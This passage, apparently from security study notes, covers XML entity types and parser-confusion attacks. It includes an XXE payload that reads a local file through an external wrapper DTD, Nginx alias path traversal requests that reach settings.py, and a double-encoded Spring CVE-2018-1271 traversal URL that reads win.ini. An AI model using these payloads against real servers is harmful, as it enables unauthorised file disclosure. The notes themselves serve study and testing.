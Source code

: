         <t1>&name;</t1>
    </root>
    ```
- Parameter Entity: `<!ENTITY % name SYSTEM "URI">`
  - `<!ENTITY % test 'Example'><!ENTITY Title 'This is %test;' >`
- Unparsed:
  - `<!ENTITY name SYSTEM "URI" NDATA TYPE>`
  - `<!ENTITY name PUBLIC "public_id" "URI" NDATA TYPE>`
- CDATA
  - It's not possible to ref to entity from another entity within the DTD defining those
  - Hence, need external DTD: `echo '<!ENTITY wrapper "%start;%content;%end;">' > wrapper.dtd`
    ```xml
    <?xml version="1.0"?>
    <!DOCTYPE data [
    <!ENTITY % start "<![CDATA[">
    <!ENTITY % content SYSTEM "file:///example/example.xml" >
    <!ENTITY % end "]]>">
    <!ENTITY % dtd SYSTEM "http://example/wrapper.dtd" >
    %dtd;
    ]>
    <root>
        <t1>&wrapper;</t1>
    </root>
    ```

## Breaking Parsers 

- <https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf>
- `new URL("file:///etc/passwd?/../../Windows/win.ini")`
  - Windows: UNC: `//etc/passwd?/../../Windows/win.ini`
  - Linux: URL: `file:///etc/passwd`
- `replace` v.s. `replaceAll`
- `..\Q/\E` is the new `../` in Grails
- `/app/static/` v.s. `/app/static`
  - Nginx:
  - `location /static { alias /home/app/static/; }`
  - In: `http://127.0.0.1/static../settings.py` 
  - Out: `/home/app/static/../settings.py`
    ```
    200 http://target/assets/app.js
    403 http://target/assets/
    404 http://target/assets/../settings.py
    403 http://target/assets../
    200 http://target/assets../static/app.js
    200 http://target/assets../settings.py
    ```
- Spring 0day - CVE-2018-1271
  - ![](_assets/2020-11-26-09-20-46.png)
  - `http://0:8080/spring-rabbit-stock/static/%255c%255c%255c%255c%255c%255c..%255c..%255c..%255c..%255c..%255c..%255c/Windows/win.ini`